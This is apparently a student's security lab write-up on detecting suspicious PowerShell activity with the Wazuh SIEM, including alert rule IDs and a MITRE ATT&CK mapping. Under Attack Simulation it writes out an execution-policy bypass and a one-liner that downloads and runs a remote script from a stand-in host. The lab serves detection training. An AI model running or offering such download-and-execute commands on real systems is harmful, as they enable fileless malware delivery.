


## LAB 006: Suspicious PowerShell Activity Detection (Wazuh)

### Overview

This lab demonstrates detection and analysis of suspicious PowerShell activity using Wazuh SIEM. The objective was to simulate attacker behavior and investigate how system logs and alerts respond to potentially malicious commands.

### Environment

- Windows Virtual Machine (Wazuh Agent Installed)  
- Wazuh SIEM Dashboard  
- PowerShell (Administrator)  

### Attack Simulation

The following PowerShell commands were executed:

1. Execution Policy Bypass with process enumeration:

powershell -ExecutionPolicy Bypass -Command "Get-Process"

2. Simulated remote script execution:

powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"

### Observations

- The second command attempted to download and execute a remote script  
- The request returned a 404 Not Found error  
- The script did not execute successfully  
- Despite failure, multiple alerts were triggered in Wazuh  

Detected alerts included:

- Windows System Error Events (Rule 61102)  
- Multiple System Error Events (Rule 61110)  
- Shell stopped unexpectedly (Rule 60778)  

### Analysis

The PowerShell command included several suspicious indicators:

- Execution policy bypass  
- In-memory execution using IEX  
- Remote script retrieval using DownloadString  

These techniques are commonly used in fileless malware attacks.

Although the script failed due to a 404 error, the behavior still triggered system activity and alerts in Wazuh.

The unexpected shell termination and system errors were likely caused by the failed execution attempt.

This demonstrates that even unsuccessful attack attempts can generate detectable signals.

### MITRE ATTACK Mapping

- T1059.001 - PowerShell  
- T1105 - Ingress Tool Transfer  

### Conclusion

The activity observed in this lab represents simulated malicious behavior.

While no payload was successfully executed, the techniques used closely mirror real-world attacker methods.

Wazuh successfully detected abnormal system behavior and generated alerts, confirming its effectiveness in identifying suspicious PowerShell activity.

### Screenshots

#### 1. Wazuh Alerts Spike (Post Execution)
This screenshot shows Wazuh detecting multiple system and PowerShell-related events on the Windows endpoint. Alerts include Windows system errors (Rule ID 61102), shell execution issues (Rule ID 60778), and repeated system activity, indicating abnormal behavior triggered during the lab simulation.

#### 2. Pre-Activity Alerts (Baseline)
This screenshot shows system activity approximately 8–10 minutes before the main PowerShell event. Wazuh detected multiple Windows system errors (Rule ID 61102), along with higher severity “Multiple System Error Events” (Rule ID 61110).

These alerts appear more distributed and less concentrated, representing baseline system instability prior to the simulated PowerShell activity. This provides context for comparison with the later spike in alerts observed during the execution phase.

#### 3. Error Output
This shows the failed PowerShell execution attempt and resulting shell error during the simulation.

### Key Takeaway

Even failed PowerShell execution attempts generate detectable system activity. By analyzing Wazuh alerts over time, it becomes possible to identify patterns, correlate events, and distinguish between baseline system behavior and abnormal spikes. This highlights the importance of continuous monitoring and log analysis in detecting early signs of potential threats.

### Conclusion

This lab demonstrated how PowerShell activity, even when unsuccessful, can trigger multiple detectable events within a monitored environment. By comparing baseline system behavior to a spike in alerts, it becomes clear how Wazuh can be used to identify and investigate suspicious activity in real time.

The correlation between system errors, shell execution issues, and increased alert frequency shows how seemingly small events can form a larger pattern. This reinforces the importance of continuous monitoring, alert analysis, and understanding event timelines when working in a SOC environment.

Overall, this lab highlights how analysts can use tools like Wazuh to detect, analyze, and respond to potential threats before they escalate.
